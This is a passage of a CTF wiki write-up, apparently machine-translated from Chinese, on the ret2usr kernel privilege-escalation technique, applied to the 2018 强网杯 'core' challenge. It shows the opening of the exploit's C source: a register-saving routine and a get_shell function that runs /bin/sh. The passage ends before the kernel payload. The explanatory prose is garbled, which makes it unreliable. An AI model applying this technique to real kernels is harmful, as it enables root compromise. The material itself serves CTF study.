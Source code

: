 ## ret2usr

The ret2usr attack exploits the user space of the user space to access the kernel space, but the kernel space can access the user space** This feature directs the kernel code or data stream to the user control, and performs the userspace code completion with the `ring 0` privilege. Wait for the operation.


### 2018 强网杯- core
The previous article analyzed the use of [kernel rop] (https://ctf-wiki.github.io/ctf-wiki/pwn/linux/kernel/kernel_rop/#kernel-rop-2018-core) to complete the lifting of the shell. Step, this analysis uses the ret2usr method to get the root shell.


The topic is no longer analyzed, directly analyzing exp.


```C

#include <stdio.h>

#include <stdlib.h>

#include <unistd.h>

#include <sys/stat.h>

#include <fcntl.h>

#include <string.h>

#include <stdint.h>



size_t user_cs, user_ss, user_rflags, user_sp;

void save_status()

{

	__asm__("mov user_cs, cs;"

			"mov user_ss, ss;"

			"mov user_sp, rsp;"

&quot;pushf;&quot;
			"pop user_rflags;"

			);

	puts("[*]status has been saved.");

}





void get_shell(void){

    system("/bin/sh");

}
```
